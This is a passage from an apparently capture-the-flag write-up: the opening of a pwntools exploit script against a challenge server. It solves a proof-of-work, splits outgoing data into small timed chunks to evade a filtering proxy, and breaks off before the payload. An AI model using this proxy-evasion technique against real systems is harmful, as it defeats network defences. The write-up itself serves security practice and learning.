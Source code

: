 ### Exploit

```python
import re, time, hashlib, string
from pwn import *

context.arch = 'amd64'

HOST = os.environ.get("HOST", "pizza-orders.challs.teamitaly.eu")
PORT = int(os.environ.get("PORT", 15008))

p = remote(HOST, PORT)

def num_to_charseq(num, charset=string.ascii_letters):
    res = ""
    while True:
        if num < len(charset):
            res += charset[num]
            break
        res += charset[num%len(charset)]
        num //= len(charset)
    return res

def solve_pow(init_str, end_hash):
    num = 0
    while True:
        try_solve = init_str + num_to_charseq(num)
        if hashlib.sha256(try_solve.encode('ascii')).hexdigest().lower().endswith(end_hash.lower()):
            return try_solve
        num += 1

#Solve PoW (this can be activated or deactivated)
if p.recvuntil(b"Give me a string", timeout=0.5):
    proc = log.progress('PoW Required, solving...')
    p.recvuntil(b"starting in ")
    init_string = p.recvuntil(b" ")[:-1]
    p.recvuntil(b"ends in ")
    hash_end = p.recvuntil(b".")[:-1]
    p.sendline(solve_pow(init_string.decode(), hash_end.decode()).encode())
    proc.success('PoW Solved, Starting Exploit')
else:
    log.info("PoW not required, starting exploit")

log.info("Monkey Patching send_raw to bypass 'laproxy'")
p.original_send_raw = p.send_raw
def monkey_patched_send_raw(data):
    data = to_bytes(data)
    for i in range(0,len(data),2):
        p.original_send_raw(data[i:i+2 if i+2<=len(data) else len(data)])
        time.sleep(.05)#Avoid TCP packets aggregation
p.send_raw = monkey_patched_send_raw

#Transform whatever you pass into bytes
def to_bytes(v):
    if isinstance(v, bytes): return v
    return str(v).encode()

#Send a command in the menu
def sendcmd(num):
    p.sendlineafter(b"> ", to_bytes(num))

#Send multiple commands in the menu
```